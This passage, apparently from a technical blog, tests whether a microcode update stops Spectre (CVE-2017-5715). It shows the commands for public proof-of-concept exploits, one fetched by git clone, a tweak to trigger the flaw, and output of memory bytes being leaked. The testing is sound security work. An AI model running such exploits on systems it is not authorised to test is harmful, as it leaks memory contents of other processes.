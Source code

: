 Let's try now the Spectre PoC on Debian booted on firmware with microcode
update:

> Try various cache hit thresholds like before 20/70/100 and even more.
> Unfortunately, the secret is still revealed without kernel mitigation.

```bash
./spectre.out 100
Version: commit 856f80f2937f2bb812cab68d45c149272a1783d5
Using a cache hit threshold of 100.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfeeb8... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfeeb9... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfeeba... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfeebb... Success: 0x20=’ ’ score=2
Reading at malicious_x = 0xffffffffffdfeebc... Success: 0x4D=’M’ score=2
Reading at malicious_x = 0xffffffffffdfeebd... Success: 0x61=’a’ score=2
...
Reading at malicious_x = 0xffffffffffdfeedb... Success: 0x72=’r’ score=2
Reading at malicious_x = 0xffffffffffdfeedc... Success: 0x61=’a’ score=2
Reading at malicious_x = 0xffffffffffdfeedd... Success: 0x67=’g’ score=2
Reading at malicious_x = 0xffffffffffdfeede... Success: 0x65=’e’ score=2
Reading at malicious_x = 0xffffffffffdfeedf... Success: 0x2E=’.’ score=2
```

But let's check another[tool](https://github.com/opsxcq/exploit-cve-2017-5715)
aimed to exploit `CVE-2017-5715`. Following the README:

```bash
git clone https://github.com/opsxcq/exploit-cve-2017-5715
cd exploit-cve-2017-5715
taskset -c 1 ./exploit
```

> Change the `#define CACHE_HIT_THRESHOLD 80` to the value of 200 before
> compiling to be sure to trigger the vulnerability.

Result without microcode update:

```bash
[+] Testing for Spectre
[+] Dumping memory from 0xffffffffffdfeea8 to 0xffffffffffdfeec2
[+] Dumped bytes match the expected value
[+] System vulnerable to spectre
```

Result with updated microcode:

```bash
[+] Testing for Spectre
[+] Dumping memory from 0xffffffffffdfeea8 to 0xffffffffffdfeec2
[+] Dumped bytes match the expected value
[+] System vulnerable to spectre
```
